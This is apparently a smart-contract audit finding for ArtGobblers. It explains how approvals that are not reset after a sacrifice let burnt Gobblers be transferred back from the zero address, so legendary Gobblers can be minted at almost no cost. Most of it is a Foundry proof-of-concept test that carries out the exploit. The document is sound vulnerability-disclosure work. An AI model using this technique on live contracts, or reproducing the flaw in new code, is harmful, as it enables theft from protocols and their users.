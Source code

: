 [ArtGobblers.sol#L432](https://github.com/code-423n4/2022-09-artgobblers/blob/d2087c5a8a6a4f1b9784520e7fe75afa3a9cbdbe/src/ArtGobblers.sol#L432)<br>
[ArtGobblers.sol#L890](https://github.com/code-423n4/2022-09-artgobblers/blob/d2087c5a8a6a4f1b9784520e7fe75afa3a9cbdbe/src/ArtGobblers.sol#L890)<br>

Allows users to mint legendary Gobblers for free assuming they have the necessary amount of Gobblers to begin with. This is achieved by "reviving" sacrificed Gobblers after having called `mintLegendaryGobbler`.

### Severity Justification

This vulnerability allows the violation of the fundamental mechanics of in-scope contracts, allowing buyers to purchase legendary Gobblers at almost no cost outside of temporary liquidity requirements which can be reduced via the use of NFT flashloans.

### Proof of Concept

Add the following code to the `ArtGobblersTest` contract in  `test/ArtGobblers.t.sol`  and run the test via `forge test --match-test testCanReuseSacrificedGobblers  -vvv`:

```solidity
function testCanReuseSacrificedGobblers() public {
	address user = users[0];

	// setup legendary mint
	uint256 startTime = block.timestamp + 30 days;
	vm.warp(startTime);
	mintGobblerToAddress(user, gobblers.LEGENDARY_AUCTION_INTERVAL());
	uint256 cost = gobblers.legendaryGobblerPrice();
	assertEq(cost, 69);
	setRandomnessAndReveal(cost, "seed");

	for (uint256 curId = 1; curId <= cost; curId++) {
		ids.push(curId);
		assertEq(gobblers.ownerOf(curId), users[0]);
	}

	// do token approvals for vulnerability exploit
	vm.startPrank(user);
	for (uint256 i = 0; i < ids.length; i++) {
		gobblers.approve(user, ids[i]);
	}
	vm.stopPrank();

	// mint legendary
	vm.prank(user);
	uint256 mintedLegendaryId = gobblers.mintLegendaryGobbler(ids);

	// confirm user owns legendary
	assertEq(gobblers.ownerOf(mintedLegendaryId), user);

	// show that contract initially thinks tokens are burnt
	for (uint256 i = 0; i < ids.length; i++) {
		hevm.expectRevert("NOT_MINTED");
		gobblers.ownerOf(ids[i]);
	}

	// "revive" burnt tokens by transferring from zero address with approval
	// which was not reset
	vm.startPrank(user);
	for (uint256 i = 0; i < ids.length; i++) {
		gobblers.transferFrom(address(0), user, ids[i]);
		assertEq(gobblers.ownerOf(ids[i]), user);
	}
	vm.stopPrank();
```